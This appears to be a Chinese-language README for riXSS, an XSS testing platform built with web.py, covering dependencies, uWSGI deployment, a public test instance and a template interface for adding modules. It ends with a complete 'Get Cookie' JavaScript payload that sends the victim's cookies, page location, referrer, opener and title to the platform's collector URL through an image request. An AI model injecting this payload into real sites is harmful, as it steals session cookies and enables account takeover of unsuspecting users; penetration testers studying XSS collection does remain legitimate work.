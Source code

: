 riXSS
========
一个开源的XSS测试平台，采用web.py构建。
依赖暂时如下：

    web.py == 0.37
    jinja2 == 2.8-dev

所需环境为：

    Python 2.7
    Nginx
    uWSGI 1.9

我们推荐uWSGI方式部署。具体可参考：http://www.ricter.info/articles/125    
目前开发刚刚进行。如有愿意开发者请提issue :)

##删档测试声明
以目前的开发状态，大部分功能都可以完成。未公布文档，所以一些接口还未暴露。    
目前删档测试的地址：http://xss.lolilu.com   
测试配置状态：

    Ubuntu12.04
    Python2.7
    Nginx+uWSGI
    SQLite

测试时如果出现错误页面或者其他越权等情况，以及用户体验的情况，请提交issue。    
~~各位大大别黑我服务器啊~~    
测试完成后将会删除数据库。    
具体接口（添加模块）如下：

    {{ now_path }}：当前payload路径，payload应该以get方式当问{{ now_path }}（这是自己部署时候需要注意的）
    {{ id }}：要写入的项目序号

另外附上Get Cookie模块的Payload

    var x=new Image();
    try
    {
    var myopener='';
    myopener=window.opener && window.opener.location ? window.opener.location : '';
    }
    catch(err)
    {
    }
    x.src='{{ now_path }}?id={{ id }}&location='+escape(document.location)+'&toplocation='+escape(top.document.location)+'&cookie='+escape
    (document.cookie)+'&opener='+escape(myopener)+'&referrer='+escape(document.referrer)+'&title='+escape(document.title);

